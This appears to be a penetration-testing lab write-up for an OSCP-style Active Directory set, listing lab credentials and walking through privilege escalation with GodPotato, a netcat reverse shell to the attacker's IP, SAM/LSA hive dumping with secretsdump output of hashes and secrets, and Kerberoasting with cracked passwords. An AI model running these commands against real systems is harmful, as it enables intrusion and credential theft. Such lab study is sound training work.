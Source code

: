 # Active Directory

```
MS01 -> 192.168.243.147
MS02 -> 10.10.203.148
DC01 -> 10.10.203.146

credentials: Eric.Wallows / EricLikesRunning800
```

I start by connecting to the session via evil winrm and look at the double NIC:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

I quickly see me have&#x20;

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

So i upload netcat and godpotato to the machine and launch the command to get a reverse shell:

```
#set up listener
nc -nlvp 1234
#in session:
./GodPotato-NET4.exe -cmd "nc.exe -e cmd.exe 192.168.45.249 1234"
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

So we have admin access so i go and look at the command to exfiltrate the hives:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#exfiltration" %}

```
reg save HKLM\SAM "C:\Users\eric.wallows\Desktop\sam.save"
reg save HKLM\SECURITY "C:\Users\eric.wallows\Desktop\security.save"
reg save HKLM\SYSTEM "C:\Users\eric.wallows\Desktop\system.save"
```

Then i download everything to my attackbox:

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Then i dump everything with this command:

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa5403534b0978445a2df2d30d19a7980
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::
[*] Dumping cached domain logon information (domain/username:hash)
OSCP.EXAM/Administrator:$DCC2$10240#Administrator#a3a38f45ff2adaf28e945577e9e2b57a: (2022-11-10 10:06:42)
OSCP.EXAM/web_svc:$DCC2$10240#web_svc#130379745455ae62bbf41faa0572f6d3: (2025-02-25 18:34:19)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:41bbb6f29bca4192a9e81d50ca80d5795b43dc1855d3baa7940c42a26a84905861d257a62d85bc647985485ae08c44d749e7988e842a82c8ba51181adce6c93617d2413ae09d644ba53e83571a3262132fd0060cc9e0630b970c6b564b6f542a0505aa0b5f7c79837fd30cb55d718463a7ec1ce58b212127458214ad5e8b68f9b09698f3eec191ad4f19ad495f038e29244056cc9c43b48e52ccda146edd91a52176cfb06297987e5b9994e139d3f18bd5f5e9662036a23b81e09a5e253cbc727ae73701066c0cd86b3de2a6493cd5e1fcb5d44407b987bb2c68b85a4eb8de3fa08a295367007fa40fbaf4e305055135
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e60532ba861fa96b10dc19c10afbfb84
[*] DefaultPassword 
(Unknown User):7k8XHk3dMtmpnC7
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x14cc9accbb06d4af8f07295749933b06cf0d6dfd
dpapi_userkey:0x4c31eb802e3529d34f198a0473a6745cf5948527
[*] NL$KM 
 0000   F1 9F 8D 0A 3D 6B 2D 13  69 96 2E 4C 32 4D C3 66   ....=k-.i..L2M.f
 0010   D5 36 97 AB 1F 0B F2 38  11 3E DF 05 AE DF 31 70   .6.....8.>....1p
 0020   C0 E3 97 A0 08 31 A9 2A  E3 88 48 DD 2C 88 86 56   .....1.*..H.,..V
 0030   83 C9 79 90 03 D5 9D 28  C1 BE 33 D6 0E 7B B7 9B   ..y....(..3..{..
NL$KM:f19f8d0a3d6b2d1369962e4c324dc366d53697ab1f0bf238113edf05aedf3170c0e397a00831a92ae38848dd2c88865683c9799003d59d28c1be33d60e7bb79b
[*] Cleaning up...
```

Then i kerberoasted the DC with the creds of eric and had 2 hashes:

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

O was able to crack the 2 hashes and got password&#x20;

```
Diamond1
Dolphin1
```

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

With xp cmdshell:

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
